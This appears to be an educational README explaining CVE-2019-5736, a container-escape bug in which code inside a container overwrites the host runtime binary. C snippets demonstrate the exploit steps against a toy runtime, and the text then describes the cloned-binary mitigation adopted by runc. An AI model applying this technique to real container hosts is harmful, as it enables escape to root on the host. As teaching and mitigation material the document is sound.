


# CVE-2019-5736

The vulnerability is that the binary executed on the host side can be overwritten from the container side. It represents the difficulty of entering the namespace safely.

## How does the exploit work?

Run exploits inside a container. Then use `drofune exec` to enter an existing container.



First, wait for a new `drofune` process comes into the container in a loop.

```c
while (pid == NULL) {
  dir = opendir("/proc");
  
  for (dp = readdir(dir); dp != NULL; dp = readdir(dir)) {
    int len = 14 + strlen(dp->d_name) + 1;
    char *cmdline_file = malloc(len);
    snprintf(cmdline_file, len, "/proc/%s/cmdline", dp->d_name);
    fp = fopen(cmdline_file, "r");

    if (fp != NULL) {
      char *cmdline = malloc(16);
      fread(cmdline, sizeof(char), 16, fp);
      fclose(fp);
      if (strstr(cmdline, "drofune") != NULL) {
        printf("Found: %s\n", cmdline_file);
        pid = dp->d_name;
        break;
      }
    }
    free(cmdline_file);
  }
  closedir(dir);
}
```

Next, open the process' `proc/pid/exe` as read only.

```c
snprintf(exe_file, exe_file_len, "/proc/%s/exe", pid);
int exe_fd = open(exe_file, O_RDONLY);
```

The important thing is that this process is running, thus it cannot be opened as write mode. However, it can be opened as write mode after the process is finished, via `/proc/self/fd`.

```c
while (1) {
  errno = 0;
  self_fd = open(self_fd_file, O_WRONLY | O_TRUNC);
  if (self_fd > 0) {
    printf("Got a file descriptor for writing\n");
    break;
  } else if (errno == ETXTBSY) {
    // Retry
  } else {
    perror("Failed to open /proc/self/fd/pid");
    return 1;
  }
}
```

Finally, you can overwrite the binary via the file descriptor you got.

```c
printf("Overwriting the host binary...\n");
write(self_fd, payload, strlen(payload);
```

Note that you need to delete the binary once to avoid the text file busy error. In runc, you don't need to worry about this, as the binary will not be busy.

## Mitigations

Entering the existing container with `--clone-binary` option allows to mitigate the vulnerability. When this option is given, run the cloned binary loaded into memory.



```c
if (ctx.clone_binary) {
  ensure_cloned_binary();
}
```

https://github.com/wata727/drofune/blob/6ccf11e675d55c9cae24cf2457af5d5e879ba540/exec.c#L24-L32
https://github.com/wata727/drofune/blob/6ccf11e675d55c9cae24cf2457af5d5e879ba540/cloned_binary.c

The above `cloned_binary.c` is a patch that is actually adopted by runc.

This will cause `/proc/pid/exe` to point to memory rather than a binary on the host. So you can not overwrite it from the container.

## References

- [CVE-2019-5736: Escape from Docker and Kubernetes containers to root on host](https://blog.dragonsector.pl/2019/02/cve-2019-5736-escape-from-docker-and.html)
- [Frichetten/CVE-2019-5736-PoC](https://github.com/Frichetten/CVE-2019-5736-PoC)
